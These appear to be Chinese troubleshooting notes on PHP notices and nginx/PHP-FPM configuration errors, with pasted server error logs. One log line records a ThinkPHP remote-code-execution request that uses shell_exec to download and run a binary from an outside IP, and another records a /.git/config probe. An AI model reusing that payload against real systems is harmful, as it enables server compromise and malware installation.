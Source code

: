 Notice
    Notice: Undefined variable: b in C:\Users\xxx\error_and_exception\demo5.php on line 3
        $a = $b;
    2018/12/06 21:23:55 [notice] 21747#0: signal process started
        产生原因：
            1、可能你的nginx.conf 内容配置的有问题。
            2、./nginx -r reload 启动命令默认加载的nginx.conf 的路径不对。
        解决办法：
            # /data/nginx/sbin -c /data/nginx/conf/nginx.conf       
            其中nginx.conf 为绝对的路径对应的的配置位置。
        使用下面命令产看启动状况：
            # ps -ef | grep nginx
            root     22826     1  0 15:06 ?        00:00:00 nginx: master process ./nginx -c /data/nginx/conf/nginx.conf
            nobody   22827 22826  0 15:06 ?        00:00:00 nginx: worker process                 
            root     22829  3502  0 15:06 pts/0    00:00:00 grep nginx


2018/12/06 21:27:45 [error] 21780#0: *9 FastCGI sent in stderr: "Primary script unknown" while reading response header from upstream, client: 58.33.180.124, server: 127.0.0.1, request: "GET /api/order/orderReceipt?order_no=DCG20181     204144355560BJAQAT0UMZ HTTP/1.1", upstream: "fastcgi://unix:/tmp/php-fpm.sock:", host: "47.110.132.138"
## 1.4. 配置有问题
2018/12/13 09:58:13 [error] 21845#0: *3569 FastCGI sent in stderr: "Primary script unknown" while reading response header from upstream, client: 5.188.210.12, server: 127.0.0.1, request: "GET http://5.188.210.12/echo.php HTTP/1.1",      upstream: "fastcgi://unix:/tmp/php-fpm.sock:", host: "5.188.210.12", referrer: "https://www.google.com/"



2018/12/14 13:47:09 [error] 21845#0: *4006 open() "/data1/www/WxApi/404/search_children.js" failed (2: No such file or directory), client: 120.132.3.65, server: 127.0.0.1, request: "GET http://www.qq.com/404/search_children.js HTTP     /1.1", host: "www.qq.com"

2018/12/18 11:21:11 [crit] 13929#0: *5955 connect() to unix:/tmp/php-fpm.sock failed (13: Permission denied) while connecting to upstream, client: 58.33.180.124, server: dcgcon.2tb.cn, request: "GET / HTTP/1.1", upstream: "fastcgi:     //unix:/tmp/php-fpm.sock:", host: "dcgcon.2tb.cn"




2019/01/18 02:38:39 [error] 15012#0: *23496 access forbidden by rule, client: 89.248.174.141, server: 127.0.0.1, request: "GET /.git/config HTTP/1.1", host: "47.110.132.138"



2019/01/18 18:54:31 [error] 15012#0: *25115 FastCGI sent in stderr: "Primary script unknown" while reading response header from upstream, client: 45.62.249.171, server: 127.0.0.1, request: "GET /public/index.php?s=/Index/%09hink%07     pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=curl%20cd%20/tmp;%20wget%20http://45.62.249.171/d/xd.x86;%20chmod%20777%20*;%20./xd.x86%20thinkphp;%20rm%20-rf%20* HTTP/1.1", upstream: "fastcgi://unix:/t     mp/php-fpm.sock:", host: "47.110.132.138"

